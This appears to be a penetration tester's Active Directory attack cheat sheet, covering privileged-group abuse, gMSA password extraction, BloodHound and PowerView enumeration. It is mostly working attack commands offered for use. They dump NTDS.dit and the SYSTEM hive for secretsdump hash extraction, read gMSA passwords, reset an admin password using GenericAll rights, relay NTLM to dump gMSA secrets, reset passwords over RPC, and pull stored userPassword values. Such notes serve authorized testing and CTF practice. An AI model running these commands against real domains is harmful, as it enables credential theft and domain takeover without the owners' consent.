 # Privileged Groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Remote Management Users
Members of this group can access PCs over **WinRM**
```powershell
Get-NetGroupMember -Identity "Remote Management Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc_name> -GroupName "Remote Management Users"
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files      
```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
- [SeBackupPrivilege DLLs](https://github.com/k4sth4/SeBackupPrivilege)

### Get Hashes from .dit File
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

## gMSA
*(ReadGMSAPassword abuse)*     
Group Managed Service Accounts (gMSA) are where Windows servers manage the password for an account by generating a long random password for it.

### Get Password (locally)
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword 
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```

### impacket-ntlmrelayx
```bash
ntlmrelayx.py --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs -debug -t ldaps://<ip>
```

### GMSAPasswordReader
```powershell
/GMSAPasswordReader --AccountName <name>
```
- [Documentation](https://github.com/rvazarkar/GMSAPasswordReader)



# Interesting Account Names
## AD Support Accounts
Often we have the credentials belonging to limited administrative accounts such as `IT`, `helpdesk` or `support`.      
Sometimes, these accounts have an ability to reset passwords.     
*Note that the wording of the account name might be different, but related to aforementioned names*         
- [Reset password through RPC](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```


# BloodHound
BloodHound is used to visualise AD environments and discover attack paths.        
- [Documentation](https://bloodhound.readthedocs.io/en/latest/index.html)

## Ingestors
### SharpHound
Local data collector for BloodHound
- [Documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- [Releases](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

### bloodhound.py
Python based data collection tool for BloodHound     
This will run against the domain, so can one run it from a remote machine.
```bash
bloodhound-python -u <username> -p <password> -d <domain> -c All -ns <nameserver_ip>                
```
- [Documentation](https://github.com/fox-it/BloodHound.py)



# Powerview
- [Github](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

## Enumeration
- [More help](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)
```powershell
# Basic domain info
Get-NetDomain

# Users
## Basic user enabled infos
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount

# Groups
Get-NetGroup | select samaccountname, admincount, description

# Computers
Get-NetComputer | select samaccountname, operatingsystem
## Find computers with Constrained Delegation
Get-NetComputer -TrustedToAuth | select samaccountname #Find computers with Constrained Delegation
## Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

# Shares
Find-DomainShare -CheckShareAccess

# Check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

# Asks DC for all computers, and asks every computer if it has admin access (very noisy). You need RCP and SMB ports opened.
Find-LocalAdminAccess

# Find interesting ACLs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
```